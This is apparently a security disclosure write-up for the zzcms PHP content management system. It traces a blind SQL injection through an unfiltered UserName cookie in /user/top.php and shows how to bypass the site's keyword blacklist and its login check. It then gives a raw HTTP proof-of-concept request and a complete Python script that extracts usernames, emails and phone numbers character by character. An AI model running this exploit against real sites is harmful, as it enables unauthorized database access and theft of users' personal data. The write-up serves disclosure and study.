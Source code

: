 # /user/top.php
First we can find sql operation in `/user/top.php`
```
function ShowUserSf(){
	if ($_COOKIE["UserName"]<>"" ){
		$sql="select groupname,grouppic from zzcms_usergroup where groupid=(select groupid from zzcms_user where username='".$_COOKIE["UserName"]."')";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
        $str= "<b>".$row["groupname"]."</b><img src='../".$row["grouppic"]."'> " ;
		}
 		   
		$sql="select groupid,totleRMB,startdate,enddate from zzcms_user where username='" .$_COOKIE["UserName"]. "'";
        $rs=query($sql);
		$row=fetch_array($rs);
		$rownum=num_rows($rs);
		if ($rownum){
			if ($row["groupid"]>1){
			$str=$str ."服务时间：".$row["startdate"]." 至 ".$row["enddate"];
			}elseif ($row["groupid"]==1){
			$str=$str . "<a href='../one/vipuser.php' target='_blank'>查看我的权限</a>";
			}
		}else{
			$str=$str . "用户不存在";
		}		
		
	}else{
	$str=$str. "您尚未登录";
	}
echo $str;			 
}
?>	
```

It seems vulnerable to boolean based blind sql injection since parameter `$_COOKIE["UserName"]` is not filterd

![]()

By finding usage, we can find `/user/ask.php` is one of pages who include `/user/top.php` 

```
<?php
include("top.php");
?>
...

}
```

In `/user/ask.php`
```
<?php
include("../inc/conn.php");
include("check.php");
?>
```

`check.php` is used to check whether visitor has logged in
```
<?php
if (!isset($_COOKIE["UserName"]) || !isset($_COOKIE["PassWord"])){
    echo "<script>location.href='/user/login.php';</script>";
}else{
    //verify username and password
}
?>
```
if the attacker submits cookies like `Cookie: UserName=foo`, without `PassWord`, only codes in `if` will be executed. However, codes in `if` merely echo javascript to html. As a result, the rest of codes in `ask.php` which use parameter `$_COOKIE["UserName"]` will still be executed.

In `/inc/conn.php`, we can find
```
include(zzcmsroot."/inc/stopsqlin.php");
```

and in `/inc/stopsqlin.php`
```
function stopsqlin($str){
if(!is_array($str)) {//有数组数据会传过来比如代理留言中的省份$_POST['province'][$i]
	$str=strtolower($str);//否则过过滤不全
	
	$sql_injdata = "";
	$sql_injdata= $sql_injdata."|".stopwords;
	$sql_injdata=CutFenGeXian($sql_injdata,"|");
	
    $sql_inj = explode("|",$sql_injdata);
	for ($i=0; $i< count($sql_inj);$i++){
		if (@strpos($str,$sql_inj[$i])!==false) {showmsg ("参数中含有非法字符 [".$sql_inj[$i]."] 系统不与处理");}
	}
}	
}
	
$r_url=strtolower($_SERVER["REQUEST_URI"]);
if (checksqlin=="Yes") {
if (strpos($r_url,"siteconfig.php")==0 && strpos($r_url,"label")==0 && strpos($r_url,"template.php")==0) {
foreach ($_GET as $get_key=>$get_var){ stopsqlin($get_var);} /* 过滤所有GET过来的变量 */      
foreach ($_POST as $post_key=>$post_var){ stopsqlin($post_var);	}/* 过滤所有POST过来的变量 */
foreach ($_COOKIE as $cookie_key=>$cookie_var){ stopsqlin($cookie_var);	}/* 过滤所有COOKIE过来的变量 */
foreach ($_REQUEST as $request_key=>$request_var){ stopsqlin($request_var);	}/* 过滤所有request过来的变量 */
}
}
?>
```
which means all parameters in `$_GET`, `$_POST`, `$_COOKIE`, `$_REQUEST` are filterd while blacklist--`stopwords` is defined in `/inc/config.php`

```
define('stopwords','select|update|and|or|delete|insert|truncate|char|into|iframe|script|得普利麻|易瑞沙|益赛普|赫赛汀|日达仙|百泌达|多吉美|拜科奇|赛美维|施多宁|派罗欣|妥塞敏|格列卫|特罗凯|手机窃听器|手枪') ;//网站禁用关键字
```

Although we can't use `select` and `or`, we can still query in the same table `zzcms_user`

![]()

# POC
```
GET /user/ask.php HTTP/1.1
User-Agent: PostmanRuntime/7.25.0
Accept: */*
Cache-Control: no-cache
Postman-Token: 61080183-d3aa-4674-943d-dfb56440c9ac
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Connection: close
Cookie: UserName=' || '1'='1'#
```


![](https://img2020.cnblogs.com/blog/1270588/202005/1270588-20200527003445505-1868409938.png)
![](https://img2020.cnblogs.com/blog/1270588/202005/1270588-20200527003453343-2101597065.png)




# exp
```
import requests
import string

url = 'http://127.0.0.1/user/ask.php'
result = []


def get_column_by_id(uid, column):
    result = ''
    for x in range(50):
        flag = 1
        for i in string.ascii_letters + string.digits + '@.':
            cookies = {
                'UserName': f"' || {column} like '{result}{i}%' && id = {uid}#"
            }
            response = requests.get(url, cookies=cookies)
            # print(response.text)
            if "查看我的权限</a>)" in response.text:
                result += i
                break
            if i == '.':
                flag = 0

        if flag == 0:
            break

        print(f'[+] id: {uid}, {column}: ' + result)
    return result


for uid in range(1, 10):
    column_list = ['username','email','phone']
    tmp = [get_column_by_id(uid, i) for i in column_list]
    if '' not in tmp:
        result.append(tmp)

print(result)
```
Results

![](https://img2020.cnblogs.com/blog/1270588/202005/1270588-20200527003511095-404803236.png)